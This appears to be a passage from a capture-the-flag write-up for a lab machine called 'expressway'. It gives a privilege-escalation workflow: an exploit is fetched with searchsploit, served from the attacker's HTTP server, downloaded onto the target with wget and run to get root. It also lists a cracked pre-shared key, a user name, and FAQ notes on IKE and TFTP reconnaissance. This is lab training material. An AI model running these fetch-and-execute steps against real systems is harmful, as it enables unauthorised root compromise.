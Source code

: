 ### Example workflow — Extract, upload, execute

1. Extract exploit:
```bash
searchsploit -m 52352
cp 52352.txt exploit.sh
```

2. Start HTTP server for easy transfer:
```bash
python -m http.server 8000
```

3. On the target (as vulnerable user):
```bash
wget http://<kali_ip>:8000/exploit.sh -O /tmp/exploit.sh
chmod +x /tmp/exploit.sh
/tmp/exploit.sh
```

Successful result:
```text
root@expressway:/# ls /root
root.txt
root@expressway:/root# cat root.txt
daba3be7b1974359f30c6a******
```

---

# Flags / Artifacts
- `root.txt` (truncated in this cheatsheet): `daba3be7b1974359f30c6a******`
- User: `ike`
- Found config file: `ciscortr.cfg`
- Cracked PSK: `freakingrockstarontheroad`

---

# Quick FAQ / Notes

- **Why use `ike-scan`?**  
  To fingerprint IKE/IPsec endpoints and collect Aggressive Mode handshakes for offline cracking.

- **Why is TFTP interesting?**  
  It’s often used by routers, switches, and VoIP systems for configuration or firmware backups. These configs frequently contain credentials.

- **UDP scans are slow — what to do?**  
  Use `--top-ports` for quick checks, increase timeouts (`--host-timeout`, `--max-retries`), or use focused probe tools like `sipvicious`, `ike-scan`, or `tftp`.

